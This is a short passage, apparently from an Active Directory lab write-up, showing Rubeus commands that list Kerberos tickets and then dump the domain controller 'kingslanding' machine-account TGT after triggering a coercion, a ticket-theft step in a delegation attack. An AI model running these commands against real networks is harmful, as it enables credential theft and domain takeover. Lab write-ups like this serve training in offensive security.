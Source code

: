 - We look on the triage again :
```
[Rubeus.Program]::MainString("triage")
```
![screenshot](pics/Rubeus_tgt.png)


- And now the tgt of kingslanding is present

- To extract it (relaunch coercer and 1 sec later launch the following dump command): (i don’t know why but the rubeus monitor mode doesn’t want to run in execute assembly)
```
[Rubeus.Program]::MainString("dump /user:kingslanding$ /service:krbtgt /nowrap");
```